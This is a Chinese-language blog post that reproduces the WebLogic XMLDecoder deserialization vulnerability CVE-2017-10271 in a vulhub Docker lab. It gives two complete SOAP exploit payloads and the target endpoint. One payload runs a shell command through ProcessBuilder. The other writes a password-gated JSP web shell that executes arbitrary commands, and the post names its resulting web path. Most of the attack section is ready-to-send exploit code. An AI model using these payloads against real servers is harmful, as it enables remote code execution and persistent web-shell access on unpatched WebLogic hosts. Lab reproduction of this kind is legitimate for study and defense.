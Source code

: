 ```yaml
---
title: Weblogic 0day 复现
date: 2017-12-21 15:43:02
tags: [vul,sec,weblogic,0day]
categories: Security
---
```


最近不断听到消息，大量Weblogic主机被挂挖矿病毒，起初以为是利用之前反序列化漏洞(CVE-2017-3248)，但是团队内部从受害主机捕获的攻击代码来看，这次是针对WebLogic的WLS组件，利用xmldecoder反序列漏洞进行的RCE攻击。目前官方也给出了此次漏洞的cve[CVE-2017-10271](https://www.cvedetails.com/cve/CVE-2017-10271/)

下面我们来复现一下此次的漏洞
#### 0x01 环境准备
我们选择docker来快速搭建漏洞环境，此次漏洞受影响的版本是10.3.6.0.0, 12.1.3.0.0, 12.2.1.1.0 和 12.2.1.2.0，我们选择10.3.6来复现

在P神的[vulhub](https://github.com/vulhub/vulhub)项目中正好存在weblogic环境，看了下版本也在受影响范围之内，所以我们选择vulhub的[weblogic](https://github.com/vulhub/vulhub/tree/master/weblogic/ssrf)镜像

克隆项目，进入weblogic目录，执行
```
docker-compose build
docker-compose up -d
```
此时会创建并运行两个容器，分别是`vulhub/weblogic`和`vulhub/weblogic`, 如下图

![containers](https://ob5vt1k7f.qnssl.com/gbF5V)

访问7001端口，weblogic已经成功运行

#### 0x02 PoC
```
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
	<work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
		<java version="1.8.0_131" class="java.beans.XMLDecoder">
		  <void class="java.lang.ProcessBuilder">
			<array class="java.lang.String" length="3">
			  <void index="0">
				<string>/bin/bash</string>
			  </void>
			  <void index="1">
				<string>-c</string>
			  </void>
			  <void index="2">
				<string>calc</string>
			  </void>
			</array>
		  <void method="start"/></void>
		</java>
	  </work:WorkContext>
	</soapenv:Header>
  <soapenv:Body/>
</soapenv:Envelope>
```
向`/wls-wsat/CoordinatorPortType`发起一个POST请求，body部分为上面的内容，修改`Content-Type`为`text/xml`

服务器返回
```
<faultcode>S:Server</faultcode>
<faultstring>0</faultstring>
```
说明执行成功

![response](https://ob5vt1k7f.qnssl.com/yn2qT)
![reverse shell](http://ob5vt1k7f.qnssl.com/YOZ6L)

#### 0x03
另外还有直接getshell的PoC:
```
<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
  <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
        <java><java version="1.4.0" class="java.beans.XMLDecoder">
            <object class="java.io.PrintWriter">
                <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/a.jsp</string><void method="println">
                    <string><![CDATA[<%if("023".equals(request.getParameter("pwd"))){  
                        java.io.InputStream in = Runtime.getRuntime().exec(request.getParameter("i")).getInputStream();  
                        int a = -1;  
                        byte[] b = new byte[2048];  
                        out.print("<pre>");  
                        while((a=in.read(b))!=-1){  
                            out.println(new String(b));  
                        }  
                        out.print("</pre>");} %>]]></string></void><void method="close"/>
            </object>
        </java>
      </java>
    </work:WorkContext>
  </soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```
会在`tmp/_WL_internal`下`bea_wls9_async_response`、`bea_wls_internal`和`uddiexplorer`目录中的war包下创建a.jsp文件，具体路径可自己选择，对应的web路径是`http://x.x.x.x:7001/bea_wls_internal/a.jsp`


目前看到PoC的变换还有好几种，甚至出现了绕过官方补丁的版本，后续应该会逐渐放出的。